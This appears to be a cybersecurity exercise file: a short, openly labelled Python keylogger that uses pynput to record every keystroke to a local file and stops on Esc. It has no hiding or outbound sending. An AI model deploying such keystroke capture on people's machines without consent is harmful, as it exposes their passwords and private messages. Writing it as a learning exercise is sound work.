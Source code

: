 # PRODIGY_CS_04
#KEYLOGGER using python

from pynput.keyboard import Key, Listener

def write_key(key):
    with open("demo.txt", "a") as f:
        new_var = str(key).replace("'", '')  # Remove single quotes
        f.write(new_var + " ")  # Add a space between keystrokes

def on_press(key):
    write_key(key)  # Save key immediately
    print(key)

def on_release(key):
    if key == Key.esc:  # Stop logging when ESC is pressed
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
